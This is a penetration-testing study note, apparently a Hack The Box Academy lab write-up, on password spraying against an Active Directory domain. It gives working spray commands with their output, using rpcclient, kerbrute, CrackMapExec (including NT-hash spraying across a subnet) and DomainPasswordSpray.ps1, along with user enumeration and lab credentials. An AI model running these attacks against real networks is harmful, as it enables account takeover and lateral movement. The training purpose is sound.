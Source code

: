 # 🗣️ Spray Responsibly

## Internal Password Spraying - from Linux

`Rpcclient` is an excellent option for performing this attack from Linux after creating a wordlist, We can filter out invalid login attempts by `grepping` for `Authority` in the response

**Using a Bash one-liner for the Attack**

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

In a target environnment this would be the output:

```
ElFelixio@htb[/htb]$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

**Using Kerbrute for the Attack**

```
ElFelixio@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:57:12 >  Using KDC(s):
2022/02/17 22:57:12 >  	172.16.5.5:88

2022/02/17 22:57:12 >  [+] VALID LOGIN:	 sgage@inlanefreight.local:Welcome1
```

**Using CrackMapExec & Filtering Logon Failures**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123 
```

After getting the credentials, we can use Crackmapexec to validate the credentials:

**Validating the Credentials with CrackMapExec**

```
ElFelixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### Local Administrator Password Reuse

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set.

In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine.

**Local Admin Spraying with CrackMapExec**

```shell-session
ElFelixio@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

We got valid credentials as local admin on `3` systems in the `172.16.5.0/23` subnet

### Practical example

We start by making a list of valid users and putting it in a list:

```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]" >valid_users.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And then we launch our CME command:

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Welcome1 | grep +
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that, we found a user account starting with the letter "s" that has the password Welcome1

## Internal Password Spraying - from Windows

From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

**Using DomainPasswordSpray.ps1**

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

{% hint style="info" %}
we could also user kerbrute on a windows host
{% endhint %}

#### Practical example

For this question i start by connecting through RDP to the machine and finding the Password spraying tool

```
xfreerdp /v:10.129.62.40 /u:htb-student /p:Academy_student_AD!
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after launching the ps1 file we get a hit:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
